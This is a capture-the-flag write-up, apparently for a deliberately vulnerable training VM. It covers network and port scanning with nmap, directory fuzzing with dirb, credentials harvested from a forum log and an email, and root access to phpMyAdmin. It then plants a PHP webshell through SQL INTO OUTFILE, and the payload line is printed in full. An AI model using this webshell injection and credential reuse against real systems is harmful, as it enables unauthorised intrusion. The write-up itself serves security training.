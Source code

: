 # Writeup1

## 1. Finding the IP

> Please note that this section may differ depending on your network configuration.

First we get our network address
```
PS C:\Users\user> ipconfig
Carte réseau sans fil Wi-Fi :

   Suffixe DNS propre à la connexion. . . :
   Adresse IPv6. . . . . . . . . . . . . .: 2a04:cec0:10f7:c1d1:83b9:f706:901f:e740
   Adresse IPv6 temporaire . . . . . . . .: 2a04:cec0:10f7:c1d1:6919:2648:8564:bd77
   Adresse IPv6 de liaison locale. . . . .: fe80::9b0e:c803:3db7:d80c%17
   Adresse IPv4. . . . . . . . . . . . . .: 192.168.140.56
   Masque de sous-réseau. . . . . . . . . : 255.255.255.0
   Passerelle par défaut. . . . . . . . . : fe80::24a7:dbff:fec2:243%17
                                       192.168.140.206
```

In this case the network ip and mask are `192.168.140.0/24`

First we use `nmap -sn` to scan the network for all hosts
```
nmap -sn 192.168.140.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 17:35 CEST
Nmap scan report for 192.168.140.112
Host is up (0.0012s latency).
Nmap scan report for 192.168.140.206
Host is up (0.0066s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 43.33 seconds
```

We get two hosts, one is `192.168.140.206` which is the address present in the `ipconfig`, the other one is the VM

## 2. Look for running services

Let's scan this ip with `nmap`
```
nmap 192.168.140.112
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 18:18 CEST
Nmap scan report for 192.168.140.112
Host is up (0.00032s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

## 3. Fuzz access paths

Ports 80 and 443 are open which means a website is present on the machine, let's fuzz it with `dirb`

```
dirb https://192.168.140.112

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Wed May 29 18:20:23 2024
URL_BASE: https://192.168.140.112/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.140.112/ ----
+ https://192.168.140.112/cgi-bin/ (CODE:403|SIZE:291)
==> DIRECTORY: https://192.168.140.112/forum/
==> DIRECTORY: https://192.168.140.112/phpmyadmin/
+ https://192.168.140.112/server-status (CODE:403|SIZE:296)
==> DIRECTORY: https://192.168.140.112/webmail/

...
```

Let's access those links with our web browser

## 4. Forum Inspection

Here is `https://192.168.140.112/forum`

![Imgur](https://i.imgur.com/9QEQoCv.png)

After close inspection the `Problem login` topic is a log file containing what looks to be login credentials

```
...
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
...
```

These credentials allows us to connect to the forum as the user `lmezard`

## 5. Logging into the forum

> login: `lmezard`

> password: `!q\]Ej?*5K5cy*AJ`

After loggin in we get access to the user's profile which gives us an email

![Imgur](https://i.imgur.com/WFjQWXt.png)

We can try using this email and the password to access the webmail

## 6. Logging into the webmail

> login: `laurie@borntosec.net`

> password: `!q\]Ej?*5K5cy*AJ`

After loggin in we get access to two mails

![Imgur](https://i.imgur.com/0Tu8PpH.png)


The `DB Access` mail contains login credentials

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

## 7. Logging into Phpmyadmin

> login: `root`

> password: `Fg-'kKXBj87E:aJ$`

After login into Phpmyadmin we get a full `root` access to all DBs in the service

![Imgur](https://i.imgur.com/nijo5Hj.png)

Now we will try to get a `shell` to the machine by injecting a new `php` page into the forum that will execute the commands we give it

## 8.0 Injecting a webshell

We will use a SQL command to create a new file inside the forum pages directory

```SQL
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'FORUM_LOCATION/PAGE_LOCATION'
```

First we have to find the `FORUM_LOCATION` and `PAGE_LOCATION` to create the new page

Knowing the forum is using Apache, the app location is usually `/var/www`

Using `dirb` we can scan the forum for directories

```
dirb https://192.168.140.112/forum

---- Scanning URL: https://192.168.140.112/forum/ ----
+ https://192.168.140.112/forum/backup (CODE:403|SIZE:295)
+ https://192.168.140.112/forum/config (CODE:403|SIZE:295)
==> DIRECTORY: https://192.168.140.112/forum/images/
==> DIRECTORY: https://192.168.140.112/forum/includes/
+ https://192.168.140.112/forum/index (CODE:200|SIZE:4984)
+ https://192.168.140.112/forum/index.php (CODE:200|SIZE:4984)
==> DIRECTORY: https://192.168.140.112/forum/js/
==> DIRECTORY: https://192.168.140.112/forum/lang/
==> DIRECTORY: https://192.168.140.112/forum/modules/
==> DIRECTORY: https://192.168.140.112/forum/templates_c/
==> DIRECTORY: https://192.168.140.112/forum/themes/
==> DIRECTORY: https://192.168.140.112/forum/update/
```

Now we can try uploading the `shell.php` file on each directory using the command in `Phpmyadmin`

It only worked in `/forum/templaces_c` (the path is `/var/www/forum/templates_c`)

![Imgur](https://i.imgur.com/WQTxCBU.png)

Now we can use this script as a webshell passing `cmd=COMMAND_TO_EXECUTE` as argument

![Imgur](https://i.imgur.com/f1uJEy6.png)

## 9. Getting a FTP access

Now that we have a shell access as user `www-data`, we will look into the machine to find usefull information

Starting in `/home/` we can see multiple users

![Imgur](https://i.imgur.com/9A92ko1.png)

We have `read` permissions only on the `/home/LOOKATME` directory

It contains a single file `password` with the following content

```
lmezard:G!@M6f4Eatau{sF"
```

This looks like credentials, we can use them to connect to the FTP 

> login: `lmezard`

> password: `G!@M6f4Eatau{sF"`

![Imgur](https://i.imgur.com/dKhMw9p.png)

